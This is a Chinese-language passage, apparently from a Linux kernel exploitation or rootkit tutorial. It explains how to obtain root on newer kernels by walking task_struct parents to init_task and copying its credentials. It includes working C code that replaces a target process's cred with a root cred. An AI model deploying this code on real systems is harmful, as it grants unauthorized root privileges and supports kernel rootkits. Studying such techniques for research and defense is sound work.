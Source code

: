 ### 方法 ②：复制 init 进程的 cred

在老版本内核上可以直接通过 `commit_creds(prepare_kernel_cred(NULL))` 完成提权，但是在较新版本的内核当中 `prepare_kernel_cred(NULL)` 会分配失败，不过 `prepare_kernel_cred()` 函数本质上是拷贝复制一个进程的 `cred` ，因此我们不难想到的是**我们可以直接复制有 root 权限的 init 进程的 cred**

虽然 init 进程的 PCB `init_task` 与 credential `init_cred` 都是静态分配的，但是这两个符号不一定会导出，且直接在内存中进行搜索也不简单，不过 **init 进程是所有进程最终的父进程，其父进程为其自身**，因此我们可以直接通过 `task_struct->parent` 不断向上直接找到 `init_task` 后 `commit_creds(prepare_kernel_cred(&init_task))` 完成提权，示例代码如下：

```
static __always_inline struct task_struct* nornir_find_root_pcb(void)
{
    struct task_struct *task;
 
    task = current;
    if (unlikely(task->parent == task)) {
        logger_error("detected out-of-tree task_struct, pid: %d\n", task->pid);
        return NULL;
    }
 
    do {
        task = task->parent;
    } while (task != task->parent);
 
    return task;
}
 
static __maybe_unused void nornir_grant_root_by_cred_replace(pid_t pid)
{
    struct task_struct *task;
    struct cred *old, *new;
    
    task = nornir_find_task_by_pid(pid);
    if (!task) {
        logger_error(
            "Unable to find task_struct of pid %d, root grant failed.\n",
            pid
        );
        return ;
    }
 
    new = prepare_kernel_cred(task);
    if (!new) {
        logger_error("Unable to allocate new cred, root grant failed.\n");
        return ;
    }
 
    old = (struct cred*) task->real_cred;
 
    get_cred(new);
    rcu_assign_pointer(task->real_cred, new);
    rcu_assign_pointer(task->cred, new);
 
    put_cred(old);
    put_cred(old);
 
    logger_info("Root privilege has been granted to task %d.\n", pid);
}
```
